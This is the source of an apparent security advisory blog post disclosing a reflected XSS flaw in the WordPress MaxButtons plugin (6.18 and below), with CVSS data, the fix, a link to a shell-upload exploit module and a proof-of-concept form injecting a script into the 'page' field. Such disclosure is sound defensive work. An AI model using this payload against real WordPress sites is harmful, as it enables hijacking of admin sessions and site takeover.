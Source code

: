 ```yaml
---
layout: post
title: MaxButtons <= 6.18 Reflected XSS
date: 2017-06-10
categories:
  - security
  - websec
  - disclosure
tags:
  - wordpress
  - maxbuttons
  - reflected xss
excerpt: Due to a lack of CSRF mitigation and entity encoding in `includes/admin_header.php`, it is possible to execute scripts in the context of an admin user by including a script in the `page` field in a POST request.
---
```

## Homepage
[https://wordpress.org/plugins/maxbuttons/](https://wordpress.org/plugins/maxbuttons/)

## Overview
Due to a lack of CSRF mitigation and entity encoding in `includes/admin_header.php`, it is possible to execute scripts in the context of an admin user by including a script in the `page` field in a POST request.

## CVSS Score
4.8

## CVSS Vector
[(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C)](https://nvd.nist.gov/vuln-metrics/cvss/v2-calculator?vector=(AV:N/AC:M/Au:N/C:P/I:P/A:N/E:F/RL:OF/RC:C))

## Versions Affected
6.18 and below

## Solution
Upgrade  to version 6.19 or newer

## WordPress Exploit Framework Module
[exploit/xss/reflected/maxbuttons\_reflected\_xss\_shell\_upload](https://github.com/rastating/wordpress-exploit-framework/blob/development/lib/wpxf/modules/exploit/xss/reflected/maxbuttons_reflected_xss_shell_upload.rb)

## Proof of Concept
```xml
<form action="http://[target]/wp-admin/admin.php?page=maxbuttons-controller" method="post">
  <input name="page" type="text" value="&quot;&gt;&lt;script&gt;alert(document.cookie);&lt;/script&gt;&lt;div class=&quot;">
  <input type="submit" value="Submit">
</form>
```

## WPVDB-ID
[8831](https://wpvulndb.com/vulnerabilities/8831)
